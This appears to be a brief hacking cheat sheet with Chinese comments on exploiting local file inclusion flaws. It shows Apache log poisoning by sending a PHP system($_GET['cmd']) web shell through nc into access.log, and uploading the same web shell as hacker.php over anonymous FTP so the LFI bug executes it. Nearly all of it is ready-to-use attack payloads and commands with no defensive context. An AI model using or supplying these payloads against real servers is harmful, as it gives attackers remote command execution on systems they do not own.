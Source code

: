## LFI (Local File include)
### 1. Apache 日志投毒
```
nc 192.168.218.72 80
GET /<?php system($_GET['cmd']); ?> // 创造日志，让服务器进行解析

/var/log/apache2/access.log // Debian or Unix 默认日志路径
```
### 2. FTP Anonymous 上传小马
```
ftp [ID address]
Anonymous

// hacker.php:
<?php system($_GET['cmd']); ?>

put hacker.php

//之后配合 LFI 进行解析
```